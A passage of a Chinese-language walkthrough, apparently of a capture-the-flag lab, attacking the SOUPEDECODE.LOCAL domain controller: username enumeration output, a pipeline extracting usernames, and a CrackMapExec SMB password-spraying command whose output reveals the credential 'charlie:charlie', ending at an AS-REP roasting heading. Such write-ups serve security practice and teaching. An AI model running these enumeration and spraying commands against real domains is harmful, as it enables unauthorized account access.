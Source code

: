 ```PowerShell
2024/11/20 12:14:00 >  [+] VALID USERNAME:       dc01@SOUPEDECODE.LOCAL
2024/11/20 12:14:46 >  [+] VALID USERNAME:       aDmin@SOUPEDECODE.LOCAL
2024/11/20 12:15:08 >  [+] VALID USERNAME:       ChArLiE@SOUPEDECODE.LOCAL
2024/11/20 12:15:09 >  [+] VALID USERNAME:       CHarlie@SOUPEDECODE.LOCAL
2024/11/20 12:15:20 >  Done! Tested 8295455 usernames (15 valid) in 282.207 seconds
```


-d 域名
-t 线程
--dc DC-o 输出到文件

提取一下用户名

```PowerShell
//提取出用户名 并全部转为小写
cat valid\_user.txt | grep @ | cut -d " " -f8 | cut -d '@' -f1 | while read a; do echo "$a" | tr '[:upper:]' '[:lower:]' >> valid\_user\_lowercase.txt; done
//去重
cat valid\_user\_lowercase.txt  | sort -u > valid\_usernames.txt
```
### 3.1. 密码喷涂

获取到了用户名单valid\_usernames.txt

尝试利用用户名作为密码进行密码喷涂

--no-bruteforce 禁用暴力破解尝试

--continue-on-success 在成功验证某个用户名和密码后，程序继续运行，不会因为一个成功的验证就停止所有后续操作

```PowerShell
crackmapexec smb SOUPEDECODE.LOCAL -u valid\_usernames.txt -p valid\_usernames.txt --no-bruteforce  --continue-on-success
SMB         SOUPEDECODE.LOCAL 445    DC01             [\*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\admin:admin STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\administrator:administrator STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\dc01:dc01 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\kleo2:kleo2 STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\printserver:printserver STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\wreed11:wreed11 STATUS\_LOGON\_FAILURE
```
成功获取到了一个用户的密码

```PowerShell
charlie:charlie
```
## 4. ASREPRoasting
